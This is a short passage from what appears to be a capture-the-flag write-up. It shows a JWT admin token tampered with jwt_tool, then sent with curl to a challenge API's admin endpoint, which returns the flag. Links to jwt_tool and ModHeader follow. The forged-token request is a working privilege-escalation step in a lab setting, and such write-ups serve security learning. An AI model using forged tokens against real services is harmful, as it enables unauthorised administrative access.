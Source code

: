 ![jwt_tool showing tampered admin token](admin-token-tampered.png)

```console
$ curl -X PUT -H "Authorization: Bearer $tamperedadmintoken" http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag
{"Flag":"FLAG{910P-iUeJ-Wwq1-i8L2}"}
```

[jwt_tool]: https://github.com/ticarpi/jwt_tool

[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj
